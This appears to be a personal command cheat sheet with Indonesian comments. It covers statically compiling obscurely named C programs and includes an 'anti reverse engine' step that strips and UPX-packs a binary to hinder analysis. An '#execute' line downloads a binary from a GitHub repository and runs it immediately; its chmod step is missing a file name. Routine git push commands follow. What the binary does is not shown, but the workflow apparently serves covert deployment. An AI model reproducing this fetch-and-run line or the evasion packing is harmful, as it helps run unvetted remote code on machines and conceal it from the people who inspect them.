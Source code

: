 #compile

gcc -o x x.c

gcc x.c -o x -pthread

gcc x.c -o x -lpthread

apt update && apt install musl musl-dev musl-tools

musl-gcc -static own.c -o own

musl-gcc -static sx.c -o sx

#anti reverse engine

strip --strip-unneeded xgm -o xc_stripped
upx --best xc_stripped -o xgmprotect


#execute

wget https://github.com/x011-al/flex-x/raw/refs/heads/main/own && chmod +x && ./own


# upload file ke git

git add namafile

git commit -m "menambahkan file namafile"

Buka GitHub → Settings → Developer settings → Personal access tokens

git remote set-url origin https://x011-al@github.com/x011-al/tesb.git

git push origin main

#gabung commite

git pull origin main --rebase

git push origin main

#replace commite

git push origin main --force



